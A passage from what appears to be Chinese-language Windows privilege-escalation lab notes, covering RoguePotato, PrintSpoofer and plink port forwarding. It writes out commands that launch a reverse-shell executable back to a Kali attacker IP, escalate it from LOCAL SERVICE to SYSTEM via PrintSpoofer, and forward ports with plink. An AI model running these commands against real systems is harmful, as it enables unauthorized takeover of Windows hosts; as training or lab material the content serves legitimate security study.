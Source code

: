 ```php
C:\PrivEsc\RoguePotato.exe -r 192.168.175.130 –l  9999 -e "C:\Users\user\Desktop\a002.exe"192.168.175.130：是kali的IP
```

PrintSpoofer
------------

### 前言

PrintSpoofer是一种针对打印后台处理程序服务的攻击

GitHub: <https://github.com/itm4n/PrintSpoofer>

Blog: <https://itm4n.github.io/printspoofer-abusing-impersonate-privileges>

最新的打印机漏洞：<https://www.4hou.com/posts/4VB6>

### 实操

#### 1. 复制PSExec64.exe和PrintSpoofer.exe可执行到Windows上

#### 2. 在kali开启监听

#### 3. 使用管理员命令提示，使用 PSExec64.exe触发作为本地服务帐户运行的反向外壳：

```php
C:\PrivEsc\PSExec64.exe /accepteula -i -u  "nt authority\local service"  C:\Users\user\Desktop\a002.exe
```

#### 4. 在kali开启另一个监听

#### 5.现在运行打印应用漏洞，以触发具有系统权限的反向外壳运行：

```php
C:\PrivEsc\PrintSpoofer.exe –i - c "C:\Users\user\Desktop\a002.exe"
```

端口转发
====

前言
--

有时在 Kali 上运行漏洞代码更容易，但易受攻击的程序是在内部端口上收听

在这些情况下 ，我们需要将kali端口转发到 Windows 上的内部端口

我们可以使用 `plink.exe`来自Putty 的makers来做到这一点

plink.exe
---------

### plink.exe的端口转发命令的一般格式

```php
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
